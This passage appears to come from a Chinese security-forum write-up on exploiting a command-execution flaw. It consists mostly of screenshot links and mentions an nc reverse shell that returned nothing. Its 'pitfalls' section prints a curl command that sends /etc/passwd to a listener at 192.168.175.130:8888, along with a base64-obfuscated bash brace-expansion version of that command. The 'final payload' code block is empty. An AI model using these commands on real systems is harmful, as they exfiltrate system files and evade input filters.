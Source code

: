 执行成功

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6c5de6d12396b51d9a0e0b87101658b6fa6498f2.png)

但是这边nc反弹之后 后面没有东西了

![image-20210521085003681](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d329f1753060978d53754e9d3b8636972ec5353f.png)

#### 踩坑记录：

![image-20210521085950628](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-203c874049a39462e338390e0850eff8954cb18a.png)

```php
curl 192.168.175.130:8888 -d "$(cat /etc/passwd)" 
bash -c {echo,Y3VybCAxOTIuMTY4LjE3NS4xMzA6ODg4OCAtZCAiJChjYXQgL2V0Yy9wYXNzd2QpIiA=}|{base64,-d}|{bash,-i}
```

![image-20210521090037876](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fe233209391d5cc30d76732b4b9e4bac82e16b5f.png)

![image-20210521090154377](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-da12d986b1ec22a41aad080aadc4d0ded91376d6.png)

最终的payload

```php
```